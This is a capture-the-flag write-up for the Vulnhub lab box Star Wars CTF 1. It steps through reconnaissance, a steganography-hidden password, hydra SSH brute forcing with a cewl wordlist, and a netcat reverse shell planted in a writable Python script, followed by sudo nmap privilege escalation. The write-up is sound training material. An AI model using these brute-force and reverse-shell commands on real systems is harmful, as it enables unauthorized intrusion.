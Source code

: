 # This is the write up for the Vulnhub box STAR WARS CTF 1 

Box Ip Address: 10.38.1.114

Attacking Machine Ip: 10.38.1.110
## **Information Gathering**
---
Starting with an Nmap port Scan we see this output:

![](Images/nmap.JPG)

The two open ports are the HTTP port 80 and the SSH port of 22. With port 80 being open, we can assume that this is a web server. Upon navigating to the address `10.38.1.114` we are greeted with this page:

![](Images/websitemain.JPG)

It seems as if there is something hidden on this page. If we look at the inspector code through firefox we see this:

![](Images/websitecode.JPG)

This tips us off that there is, in fact, something hidden here. WWe can use this command to download both the files:

```
wget http://10.38.1.114/images/yoda.jpg
```
and

```
wget http://10.38.1.114/images/yoda.png
```

Since we cannot use the steghide command without a password we turn to online for a `steganography decoder`.

The decoder I used was at this site:

`stylesuxx.github.io/steganography`

Upon uploading the .png image and hitting `decode` we get this output:

![](Images/stegpassword.JPG)

So we can see the password is: `babyYoda123`

Now time to find the username(s)

We can use `gobuster` again but this time also specifying for certain file types such as `php` `js` and `txt`.

If we use this command, these are the results:

```
gobuster dir -u 10.38.1.114 -w /usr/share/wordlists/dirb/common.txt -x php,js,txt
```

![](Images/gobust_filetypes.JPG)

The `users.js` file looks interesting. Upon navigating to that file this is what we see:

![](Images/users_js.JPG)

We can see the two users in this file are `han` and `skywalker`

If we navigate to the `/admin` domain we are greeted with this login page:

![](Images/admin_login.JPG)

After trying both users with the password `babyYoda123` we are unable to login. 

However, during our initial nmap scan we saw that the `SSH` port of `22` was open. Maybe one of those users will work with `SSH`

![](Images/ssh_skyhan.JPG)

We can see from this output that the user `skywalker` did not work with the password, but the user han did. We are now in as the user `han`

```
ls -la
```

Running this command we can see there is a `.secrets` directory, lets see what is in there.

![](Images/ls_la_han.JPG)

If we change directories and look into the files we see a `note.txt` file. 

![](Images/secrets_files.JPG)

If we `cat` the `note.txt` file this is the output:

![](Images/note_txt.JPG) 

The spelling `cewl` is a tip off on our next step. Also we can add Anakin to our list of potential users to pivot to.

`Cewl` is custom wordlist generator and given what we have seen I think we are supposed to use it on the `/r2d2` webpage to generate a list of passwords to brute force with.

Back on our home `Desktop`

If we run this command we can generate a file for a list of password.

```
cewl http://10.38.1.114/r2d2 -w passwords.txt
```

Now that we have a list of passwords we can use this command to brute force our way through logging in using `SSH` with our two users.

```
hydra -l anakin -P ./passwords.txt 10.38.1.114 -t 4 ssh
```

The results for the user `anakin` didn't return any results but running that same command for the user `skywalker` gives us this result:

![](Images/skywalk_ssh.JPG)

`SSH`ing into the user `skywalker` and viewing the directory we see there is another `.secrets` directory.

The contents of which is another `note.txt` that contains this message:

![](Images/skynote.JPG)

From this we can assume that `Darth` must be another user. Lets see if we can run the Hydra command from earlier in an attempt to brute force the password for `Darth`.

```
hydra -l darth -P ./passwords.txt 10.38.1.114 -t 4 ssh1
```

With no avail to brute force the password, lets see if we can access `Darth`'s home directory:

```
cd /home/Darth/
```
Upon navigating and traversing through the directories we see that there is a writable python script:

![](Images/darthpy.JPG)

The contents of the script currently are irrelevant, however we can change it to use a netcat listener to give us a reverse shell.

```
import os
os.system("nc -e /bin/bash 10.38.1.110 1234")
```
After replacing with the above code and navigating to a new terminal we input the command to start our listener 
```
nc -lnvp 1234
```

We wait a minute and are greeted with this connection, we can use `whoami` to confirm we are infact the user `Darth`:

![](Images/ncdarth.JPG)

In order to get a proper bash shell we can use this command:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![](Images/darthshell.JPG)

We now have our shell, let's see what kind of permissions we have as `Darth`. We can use this command to see if we hold `sudo` privileges for anything: 

```
sudo -l
```

We can see by this output we do in fact have `sudo` privileges for nmap.

![](Images/darthsudo.JPG)

We can see that we are running `nmap` version 7.70

![](Images/nmapvers.JPG)

After some looking in the man pages we see that this version of nmap can run lua scripts. Looking on the internet we find this write up for how to use a lua script with nmap to gain root privileges:

![](Images/nmap770root.JPG)



After running the command and checking `whoami` we can see that we have gained root access.

![](Images/root.JPG)

After `cd` to `/root` and looking at all the files we can see one called `flag.txt`

![](Images/rootfiles.JPG)

When we `cat` the file se are shown this output!!!

![](Images/vader.JPG)

# Congratulations!!!

#### Thanks so much for coming along on this journey with me